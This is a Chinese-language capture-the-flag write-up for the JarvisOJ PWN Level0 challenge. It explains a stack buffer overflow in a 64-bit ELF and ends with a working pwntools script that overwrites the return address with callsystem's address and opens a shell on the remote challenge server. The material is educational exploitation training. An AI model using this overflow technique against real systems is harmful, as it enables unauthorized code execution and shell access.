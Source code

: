# JarvisOJ-PWN-Level0

## 0x01 文件查看

```shell
file level0
```

![](README/BEEDD31A-3E25-4E4F-8608-9618CE4CCC23.png)
检查之后发现文件是64位的elf程序

```shell
checksec level0
```


![](README/EA63714E-03BB-47D1-B5C1-E10D69218681.png)

开了NX保护，可以防止栈上的数据运行，不过该题不需要运行栈上的shellcode，因为程序自带了shell函数
 
把程序仍到ida里面，按F5查看

![](README/66558C5F-546B-4A66-8204-4FD44D203818.png)
查看vulnerable_function函数
![](README/59F4897E-794F-4632-9F63-F2220CE5447B.png)

程序定义了0x80长度的buf，但是read读取了0x200的长度，典型的缓冲区溢出

除此之外还有一个calllsystem函数，是程序自带的shell
![](README/56806678-FFF7-41D6-ABFD-B28802B7AD73.png)

这样的利用原理就是将通过溢出的信息将ret的地址复写成callsystem的地址
![](README/B6CE8DD4-90E5-437C-9F15-AE53F7DE7712.png)

callsystem的地址是0000000000400596

payload的构造,因为是64位程序，所以ebp的长度是0x8
```python
callsystem_addr = 0x0000000000400596 
payload = "A"*(0x80+0x8)+p64(callsystem_addr)
```

最终程序就是
```
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9881)

callsystem_addr = 0x0000000000400596

payload = "A"*(0x80+0x8)+p64(callsystem_addr)

conn.send(payload)

conn.interactive()
```


![](README/9C2FF4F8-93CE-4921-8897-3E0AC11B675D.png)